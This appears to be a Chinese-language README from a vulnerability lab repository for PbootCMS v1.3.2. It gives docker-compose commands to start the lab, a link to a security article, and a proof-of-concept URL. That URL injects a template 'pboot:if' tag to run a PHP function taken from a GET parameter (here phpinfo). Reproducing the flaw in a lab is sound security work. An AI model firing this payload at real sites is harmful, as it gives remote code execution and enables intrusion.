

## 启动环境

```
docker-compose build
docker-compose up -d
```

## 漏洞一:
命令执行漏洞
```
http://127.0.0.1/index.php/index/index?keyword={pboot:if(1)$a=$_GET[b];$a();//)})}}{/pboot:if}&b=phpinfo

```





## 链接:
[PbootCMS v1.3.2命令执行和SQL注入漏洞 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/167138)